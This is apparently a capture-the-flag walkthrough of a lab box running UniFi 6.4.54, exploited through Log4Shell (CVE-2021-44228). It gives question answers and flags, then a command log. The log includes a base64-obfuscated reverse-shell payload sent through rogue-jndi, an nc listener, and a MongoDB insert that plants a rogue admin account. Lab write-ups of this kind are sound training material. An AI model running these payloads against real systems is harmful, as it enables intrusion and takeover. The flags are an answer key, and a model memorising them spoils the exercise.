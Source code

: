 
Which are the first four open ports?
22,6789,8080,8443



What is the title of the software that is running running on port 8443?
UniFi Network

What is the version of the software that is running?
6.4.54

What is the CVE for the identified vulnerability?
CVE-2021-44228

What protocol does JNDI leverage in the injection?
ldap

What tool do we use to intercept the traffic, indicating the attack was successful?
tcpdump

What port do we need to inspect intercepted traffic for?
389

What port is the MongoDB service running on?
27117

What is the default database name for UniFi applications?
ace

What is the function we use to enumerate users within the database in MongoDB?
db.admin.find()

What is the function we use to update users within the database in MongoDB?
db.admin.update()

What is the password for the root user?
NotACrackablePassword4U2022

6ced1a6a89e666c0620cdb10262ba127


Submit root flag
e50bc93c75b634e4b272d2f771c33681






``` bash 
┌─[ramdark@parrot]─[/etc/rogue-jndi]
└──╼ $sudo git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

┌─[✗]─[ramdark@parrot]─[/etc/rogue-jndi]
└──╼ $java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.15.8"


┌─[ramdark@parrot]─[~]
└──╼ $sudo nc -nlvp 4444
[sudo] password for ramdark: 
listening on [any] 4444 ...
connect to [10.10.15.8] from (UNKNOWN) [10.129.150.227] 33856
whoami
unifi
python3 -c 'import pty;pty.spawn("/bin/bash");'
bash: line 2: python3: command not found
script /dev/null -c bash                                
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ ls
> db.admin.find().forEach(printjson);

┌─[ramdark@parrot]─[/etc/rogue-jndi]
└──╼ $mkpasswd -m sha-512 password
$6$o4w8RIzoLA0ovNZu$Q5uShwUH2Yu5DmUqreZiIjDYGXKzr7ZjEENwZl5AwiGgGtGabA7LQTMOAqhfEm8Vw6Iai4aII9fEzzRKGIvbP.
┌─[ramdark@parrot]─[/etc/rogue-jndi]
└──╼ $



db.admin.insert({"email":"crypto@localhost.local","last_site_name":"default","name":"crypto","time_created":NumberLong(100019800), "x_shadow":"$6$o4w8RIzoLA0ovNZu$Q5uShwUH2Yu5DmUqreZiIjDYGXKzr7ZjEENwZl5AwiGgGtGabA7LQTMOAqhfEm8Vw6Iai4aII9fEzzRKGIvbP."})
WriteResult({ "nInserted" : 1 })
> db.admin.find().forEach(printjson);


┌─[ramdark@parrot]─[~]
└──╼ $ssh root@10.129.150.227
The authenticity of host '10.129.150.227 (10.129.150.227)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.129.150.227' (ECDSA) to the list of known hosts.
root@10.129.150.227's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

root@unified:~# ls
root.txt
root@unified:~# cat root.txt 
e50bc93c75b634e4b272d2f771c33681
root@unified:~# cd home 
-bash: cd: home: No such file or directory
root@unified:~# cd /home
root@unified:/home# ls
michael
root@unified:/home# cd michael/
root@unified:/home/michael# ls
user.txt
root@unified:/home/michael# cat user.txt 
6ced1a6a89e666c0620cdb10262ba127
root@unified:/home/michael# 


```



+ [unifed ](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
+ 